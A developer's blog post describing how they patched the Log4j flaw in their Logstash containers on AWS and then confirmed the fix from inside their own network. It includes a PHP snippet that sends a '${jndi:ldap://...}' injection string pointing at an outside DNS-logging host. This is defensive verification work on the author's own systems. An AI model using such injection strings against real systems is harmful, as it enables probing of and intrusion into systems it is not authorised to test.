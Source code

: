 ```yaml
---
title: When Java bring problems to PHP Engineers
date: "2021-12-15T16:56:45.523Z"
description: Patching log4j on Logstash 
---
```


If you have read my [Elasticsearch post](https://blog.deleu.dev/el4k-my-journey-through-aws-elk-stack/)
then you may be aware that I run 4 Logstash containers on AWS to do cross-region logging.
I work alongside PHP, NodeJS & Python engineers. We have been running our ELK stack with AWS Elasticsearch
(managed) which covers Elasticsearch and Kibana and we run Logstash on Fargate. With the recent
0-day on Log4j, we first analyzed all of our stack to see if there was anything more pressing
and we concluded that we were safe. A big portion of that conclusion relied on teh fact
that our Logstash is not publicly facing and only if we attempt to log an invalid message
we could then trigger the problem. In other words, someone had to find a way to cause
our PHP system to write a log message and then that log message had to be invalid so that
Logstash would fail to process it and write it's own log message. If the final message written
by Logstash had the `${jndi:ldap://}` attack we then would be liable and that proved to be
extremely hard or flat out impossible.

With that first investigation out of the way, I went on a little playful journey on how to mitigate
the problem even further. We're in an _interesting_ position because we're not ready to migrate to
AWS OpenSearch and Elastic did not provide any patch for Logstash 7.9.3 which is the version we're
running. Elastic did, however, provided a mechanism to patch existing systems running the following
statement:

```bash
zip -q -d /logstash-patch/logstash-core/**/*/log4j-core-2.* org/apache/logging/log4j/core/lookup/JndiLookup.class
```

As you may see in [this pull request](https://github.com/cgauge/laravel-logstash-apm/pull/18/files), I
had to get creative because the Logstash Docker Image does not have zip installed. So I introduced an
intermediate image to run this and then placed the file back. Once I introduced this hoop, I felt like
I needed to get a bit of confidence that this was actually patching our Logstash, so I decided to learn
how to trigger the bug myself in order to verify that after the patch the bug would not be available
anymore.

I accomplished that by 1) creating a new EC2 instance inside our VPC, 2) installing PHP and 3) installing
monolog/monolog. I was going to write a message directly into our Logstash with a state that I know
would cause the message to fail. I did that with a code snippet similar to the following:

```php
<?php

require 'vendor/autoload.php';

$socket = new \Monolog\Handler\SocketHandler('tcp://my-logstash-internal-ip', 100);

$socket->setConnectionTimeout(1);

$socket->setFormatter(new \Monolog\Formatter\JsonFormatter);

$socket->handle([
    'special-key-that-old-cause-logstash-to-crash' => 'special-value',
    'vulnerability' => '${jndi:ldap://something.dnslog.cn/deleu}',
]);
```

As soon as I tried to write this message to Logstash, it failed to process it and wrote a log itself.
That log went into AWS CloudWatch and I could see some IP address showing up on the DNS Log service.
The IP address was not from my VPC and a bit further investigation I realized that AWS itself is
resolving the DNS and caching it, which means running the script twice would not trigger it again.
I created a new DNS Log subdomain and tested again to see it happening a 2nd time to make sure
it really was being triggered by my Logstash container. After that, I released the new version
of our Logstash with the patch provided by Elastic (removing the JndiLookup.java class) and
I could run the script and confirm that it was in fact no longer triggering any DNS lookup.

This was a roller-coaster of emotions. I definitely don't enjoy working under pressure but at the same
time it was a pressing subject given the potential vulnerability. That is why I started by looking at
the surface and looking over how easy it could be triggered from our PHP, NodeJS or Python projects.
Once I concluded that I could not do that in any way or form, I took a bit of breathing and focused on
"cheating" by spinning up a resource inside our VPC and doing a very targeted attack on our own container.
I did not truly exploit it by building an LDAP Server, but verifying the DNS resolution was being triggered
was more than enough to give me a confidence boost that the patch is perfectly safe and live.

As always, hit me up on [Twitter](https://twitter.com/deleugyn) with any
questions. 

Cheers.